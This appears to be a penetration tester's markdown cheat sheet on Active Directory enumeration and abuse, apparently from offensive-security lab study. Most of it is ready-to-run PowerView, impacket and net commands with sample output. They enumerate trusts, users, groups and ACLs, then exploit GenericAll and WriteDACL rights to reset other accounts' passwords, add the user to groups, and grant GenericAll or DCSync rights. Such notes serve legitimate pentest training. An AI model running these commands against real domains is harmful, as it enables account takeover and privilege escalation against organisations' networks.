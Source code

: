 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Ad_Enumeration
---
```


<span style="font-size: 35px; color:red"><b>Active Directory Enumeration</b></span>
&nbsp;
<span style="font-size: 25px; color:white"><b>Enumerate the forest</b></span>
```
nltest /trusted_domains
```
OR
```
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
```

OR with powerview:
```
Get-DomainTrust -API
```

OR
```
Get-DomainTrust
```

to Get details about the domain:
```
Get-DomainUser -Domain <domain>
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Enumerate Users</b></span>
<span style="color:red"><b>From Linux:</b></span>
Queries target domain for users and users data.
```shell
GetADUsers.py -all <DOMAIN>/<USER_NAME> -dc-ip <IP>
```

<span style="color:red"><b>From Windows:</b></span>
Prints the often-lengthy list of ACEs (<span style="color:red"><b>From Linux:</b></span>Access Control Entries</span>) applied to the object.
```powershell
Get-ObjectAcl -Identity <user>
```

To see usernames or group from SID:
```powershell
ConvertFrom-SID <SID_EXAMPLE_S-1-5-21-3776646582-2086779273-4091361643-553>
```
To do the same thing but for all SIDs dumped from _Get-ObjectAcl_:
```powershell
Get-ObjectAcl -Identity <user> -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}
```
(to get only the ones with GenericAll, add `| findstr -i "GenericAll ObjectDN"` at the ent of the block above)

To emunerate all ACEs for all domain users:
```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```
I.E. OUTPUT:
```
AceType               : AccessAllowed
ObjectDN              : CN=TestService1,OU=prodUsers,DC=prod,DC=corp1,DC=com
ActiveDirectoryRights : GenericAll
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3776646582-2086779273-4091361643-1604
InheritanceFlags      : None
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-3776646582-2086779273-4091361643-1111
AccessMask            : 983551
AuditFlags            : None
AceFlags              : None
AceQualifier          : AccessAllowed
Identity              : PROD\offsec
```
Means that the current user has GenericAll access (fullcontrol) to the TestService1 account.
In this case, you can change the password of the testService1 account:
```powershell
net user <CN_NAME> <PASSWORD> /domain
```
You can do the same using _ForceChangePassword_ and <span style="color:red">AllExtendedRights</span> access rights.
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Enumerate Groups</b></span>

Enumerate all domain groups that our current user has explicit access rights to:
```powershell
Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```
(Check for AceType: AccessAllowed, CN= something and Identity = user in the output)
Add yourself to the group:
```powershell
net group testgroup <user> /add /domain
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Abusing WriteDACL access right</b></span>
After [enumerating all ACEs for all domain users](####Get-ObjectAcl), check for <span style="color:red">ActiveDirectoryRights : WriteDacl</span>.
If you find any, that right allows us to add new access rights like GenericAll:
```powershell
Add-DomainObjectAcl -TargetIdentity <CN_NAME> -PrincipalIdentity <CURRENT_USER> -Rights All
```
You can use the same function to apply additional access rights such as GenericWrite or DCSync if the targeted object is the domain object.
Dump the DACL again to verify that GenericAll was applied:
```
Get-ObjectAcl -Identity <CN> -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```
And check the <span style="color:red">ActiveDirectoryRights: GenericAll</span> is there.
You can now change the CN password.

---
